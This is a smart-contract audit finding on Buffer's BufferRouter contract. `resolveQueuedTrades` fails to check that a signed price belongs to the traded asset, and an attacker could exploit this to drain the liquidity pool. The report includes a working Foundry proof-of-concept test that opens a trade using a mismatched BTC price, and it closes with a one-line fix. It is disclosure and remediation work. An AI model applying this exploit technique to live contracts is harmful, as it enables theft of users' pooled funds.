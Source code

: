 # `asset` param from publisher isn't validated in function `resolveQueuedTrades` of `BufferRouter` contract

## Summary

The `asset` parameter coming from the publisher isn't validated in the `resolveQueuedTrades` function and may allow a bad actor to use a price coming from a different asset which doesn't match the pair for the target contract of the trade.

## Vulnerability Detail

The function `resolveQueuedTrades` allows a keeper to process queued trades. This is done by submitting the identifier for the queued trade (`queueId`) and the matching price coming from the publisher (asset, price, timestamp and signature).

This happens around line 143, the relevant section is the following:

https://github.com/sherlock-audit/2022-11-buffer-romeroadrian/blob/main/contracts/contracts/core/BufferRouter.sol#L143

```solidity
bool isSignerVerifed = _validateSigner(
    currentParams.timestamp,
    currentParams.asset,
    currentParams.price,
    currentParams.signature
);
// Silently fail if the signature doesn't match
if (!isSignerVerifed) {
    emit FailResolve(
        currentParams.queueId,
        "Router: Signature didn't match"
    );
    continue;
}
if (
    !queuedTrade.isQueued ||
    currentParams.timestamp != queuedTrade.queuedTime
) {
    // Trade has already been opened or canceled or the timestamp is wrong.
    // So ignore this trade.
    continue;
}
```

The function correctly verifies the signature for the publisher params (using `_validateSigner`), it then correctly verifies that the publisher timestamp matches the trade timestamp (`currentParams.timestamp != queuedTrade.queuedTime`) but it fails to validate that the publisher asset matches the target contract from the queued trade (i.e. that the price pair from the publisher is the same pair as the binary option).

## Impact

This represents a critical issue, since any price from any asset published by the publisher can be used to create the binary option. 

It would then be trivial to correctly forecast the binary option result, just pick two assets that have dissimilar prices (for example BTC and ETH, see test below). An attacker can create a trade for the low priced asset setting `isAbove == false` and resolve it using the price for a high priced asset. When the option expires and the real price for the low priced asset is used it will certainly be in favor of the attacker. This will allow him to always end up ITM. The attacker can repeat the process until the pool is emptied and steal everything.

Note that this operation must be executed in part by the keeper. There are 3 possible scenarios:

1. The router is operating in "public" keeper mode. This would allow anyone to pull the attack since the attacker can be the keeper.
2. The keeper is the attacker, or is associated with the attacker, and will call `resolveQueuedTrades` with the invalid asset.
3. The keeper is accidentally working incorrectly and sends the price for another asset (for example, it always sends the same). An attacker can notice this and take advantage of the situation.

## Code Snippet

In the following test, we simulate an scenario where Alice (the attacker) creates a binary option for the "ETH/USD" pair while the keeper uses the publisher price for the "BTC/USD" price. 

Following the example and taking current prices at the time this report is being filled, BTC is around $16500 and ETH around $1200. Alice can then create her trade for 16500 and the keeper can validate it correctly using the "BTC/USD" publisher feed. When the trade expires, the real price can be used (~1200) which will certainly be below the strike of $16500.


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.4;

import "forge-std/Test.sol";
import "../src/core/BufferRouter.sol";
import "../src/core/BufferBinaryOptions.sol";
import "../src/core/BufferBinaryPool.sol";
import "../src/core/OptionsConfig.sol";
import "../src/core/ReferralStorage.sol";
import "../src/interfaces/Interfaces.sol";
import "../src/tokens/USDC.sol";
import "../src/tokens/BadERC20.sol";
import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract AuditPoolTest is Test {
    bytes32 constant ROUTER_ROLE = keccak256("ROUTER_ROLE");
    bytes32 constant OPTION_ISSUER_ROLE = keccak256("OPTION_ISSUER_ROLE");

    event OpenTrade(address indexed account, uint256 queueId, uint256 optionId);

    address owner;
    uint256 publisherPrivateKey;
    address publisher;
    address feeRecipient;
    address keeper;
    address alice;
    address bob;

    function setUp() public {
        owner = makeAddr("owner");
        publisherPrivateKey = 0x1234;
        publisher = vm.addr(publisherPrivateKey);
        feeRecipient = makeAddr("feeRecipient");
        keeper = makeAddr("keeper");
        alice = makeAddr("alice");
        bob = makeAddr("bob");
    }
    
    function test_BuffeRouter_resolveQueuedTrades_InvalidOracleAsset() public {
        // Setup
        vm.startPrank(owner);

        USDC token = new USDC();
        BufferBinaryPool pool = new BufferBinaryPool(token);
        OptionsConfig config = new OptionsConfig(pool);
        ReferralStorage referral = new ReferralStorage();
        BufferBinaryOptions binary = new BufferBinaryOptions(
            token,
            pool,
            config,
            referral,
            IBufferBinaryOptions.AssetCategory.Crypto,
            "ETH/USDC"
        );
        BufferRouter router = new BufferRouter(publisher);

        config.setSettlementFeeDisbursalContract(feeRecipient);

        router.setContractRegistry(address(binary), true);
        router.setKeeper(keeper, true);

        binary.grantRole(ROUTER_ROLE, address(router));
        binary.approvePoolToTransferTokenX();

        pool.grantRole(OPTION_ISSUER_ROLE, address(binary));
        // ensure pool has tokens
        token.approve(address(pool), type(uint256).max);
        pool.provide(10e6, 0);

        vm.stopPrank();
        // END Setup

        // Provide Alice with tokens
        uint256 amount = 1e6;
        vm.prank(owner);
        token.transfer(alice, amount);

        // Alice creates a trade, expectedStrike is 16500
        vm.prank(alice);
        token.approve(address(router), type(uint256).max);
        vm.prank(alice);
        uint256 queueId = router.initiateTrade(
            amount, // uint256 totalFee,
            1 hours, // uint256 period,
            false, // bool isAbove,
            address(binary), // address targetContract,
            16500, // uint256 expectedStrike,
            5e2,// uint256 slippage,
            true, // bool allowPartialFill,
            "", // string memory referralCode,
            0 // uint256 traderNFTId
        );

        // Now, publisher signs and publishes a price for a different asset, let's assume this is BTC/USD
        address asset = makeAddr("BTC/USD binary option");
        uint256 timestamp = block.timestamp;
        uint256 price = 16500;
        bytes32 digest = ECDSA.toEthSignedMessageHash(
            keccak256(abi.encodePacked(timestamp, asset, price))
        );
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(publisherPrivateKey, digest);

        // Keeper now uses this signature to execute resolveQueuedTrades
        IBufferRouter.OpenTradeParams[] memory params = new IBufferRouter.OpenTradeParams[](1);
        params[0].queueId = queueId;
        params[0].timestamp = timestamp;
        params[0].asset = asset;
        params[0].price = price;
        params[0].signature = abi.encodePacked(r,s,v);

        // Expect the OpenTrade event which indicates the operation succeeded
        vm.expectEmit(true, true, false, false);
        emit OpenTrade(alice, queueId, 0);

        vm.prank(keeper);
        router.resolveQueuedTrades(params);
    }
}
```

## Tool used

None

## Recommendation

Validate that the `asset` matches the `targetContract` param from the trade:


```solidity
if (
    !queuedTrade.isQueued ||
    currentParams.timestamp != queuedTrade.queuedTime ||
    currentParams.asset != queuedTrade.targetContract
) {
    // Trade has already been opened or canceled, the timestamp is wrong or asset is wrong
    // So ignore this trade.
    continue;
}
...
```
